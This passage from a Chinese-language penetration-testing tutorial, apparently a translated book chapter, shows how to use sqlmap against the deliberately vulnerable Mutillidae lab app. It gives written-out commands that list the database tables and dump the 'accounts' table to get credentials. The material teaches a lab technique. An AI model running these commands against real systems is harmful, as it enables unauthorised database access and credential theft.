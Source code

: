 图 7.20：sqlmap 在易受攻击的链接上执行的输出

最有可能存储应用程序数据的数据库是 Mutillidae 数据库；因此，我们将使用以下命令检查该数据库的所有表：

```
root@kali:~# sqlmap -u "http://yourip/mutillidae/index.php?page=user-info.php&username=&password=&user-info-php-submit-button=View+Account+Details" -D mutillidae --tables 
```

执行该命令返回的数据如*图 7.21*所示：

![](img/B17765_07_21.png)

图 7.21：使用 sqlmap 列出 Mutillidae 数据库中的所有表

在所有列出的表中，有一个表名为 `accounts`。我们将尝试从该表部分转储数据。如果成功，账户凭证将允许我们在进一步的 SQL 注入攻击失败时重新访问数据库。

要转储凭证，请使用以下命令：

```
root@kali:~# sqlmap -u "http://yourip/mutillidae/index.php?page=user-info.php&username=&password=&user-info-php-submit-button=View+Account+Details" -D mutillidae -T accounts --dump 
```
